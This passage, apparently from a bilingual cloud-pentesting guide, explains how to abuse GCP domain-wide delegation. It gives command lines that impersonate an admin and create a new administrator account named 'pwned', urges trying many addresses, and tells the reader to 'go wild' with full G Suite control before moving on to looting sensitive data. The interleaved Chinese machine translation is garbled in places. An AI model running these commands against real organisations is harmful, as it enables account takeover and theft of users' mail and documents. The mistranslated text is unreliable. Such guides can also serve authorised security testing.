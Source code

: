```bash
# Validate access only
./gcp_delegation.py --keyfile ./credentials.json \
    --impersonate steve.admin@target-org.com \
    --domain target-org.com

# List the directory
./gcp_delegation.py --keyfile ./credentials.json \
    --impersonate steve.admin@target-org.com \
    --domain target-org.com \
    --list

# Create a new admin account
./gcp_delegation.py --keyfile ./credentials.json \
    --impersonate steve.admin@target-org.com \
    --domain target-org.com \
    --account pwned
```

You can try this script across a range of email addresses to impersonate **various** **users**. Standard output will indicate whether or not the service account has access to Workforce, and will include a **random password for the new admin accoun**t if one is created.

您可以在一系列电子邮件地址中尝试此脚本，以模仿**各种** **用户**。 标准输出将指示该服务帐户是否可以访问劳动力，如果创建了一个新的管理员Accoun ** t的随机密码。

If you have success creating a new admin account, you can log on to the [Google admin console](https://admin.google.com) and have full control over everything in G Suite for every user - email, docs, calendar, etc. Go wild.

如果您成功创建了一个新的管理帐户，则可以登录[Google Admin Console]（https://admin.google.com），并对每个用户的G Suite中的所有内容完全控制 - 电子邮件，电子邮件，文档，日历 等等。疯了。

### Looting

Another promising way to **escalate privileges inside the cloud is to enumerate as much sensitive information as possible** from the services that are being used. Here you can find some enumeration recommendations for some GCP services, but more could be used so feel free to submit PRs indicating ways to enumerate more services:

**升级云中特权的另一种有希望的方法是，从所使用的服务中列举了尽可能多的敏感信息**。 在这里，您可以为某些GCP服务找到一些枚举建议，但可以使用更多建议，因此可以随意提交指示枚举更多服务的方法：

{% hint style="info" %}

{％提示样式=“ info”％}
Note that you can enumerate most resources with `list` (list items of that type), `describe` (describe parent and children items) and `get-iam-policy` (get policy attached to that specific resource).

请注意，您可以用``列表''（该类型的列表项目），``描述''（描述父母和子女项目）和`get-am-policy'列举大多数资源（获取该特定资源附加策略）。
{% endhint %}

There is a gcloud API endpoint that aims to **list all the resources the accessible from the used user accoun**t, it's in alpha bet and only supports a couple of resources, but maybe in the future you can list all you have access to with it: [https://helpmanual.io/man1/gcloud\_alpha\_resources\_list/](https://helpmanual.io/man1/gcloud\_alpha\_resources\_list/)

有一个gcloud API端点，旨在**列出所有可从二手用户访问** t访问的资源，它在alpha bet中仅支持一些资源，但也许将来您可以列出所有拥有的访问权限 与之：[https://helpmanual.io/man1/gcloud \ _alpha \ _RESources \ _list/]（
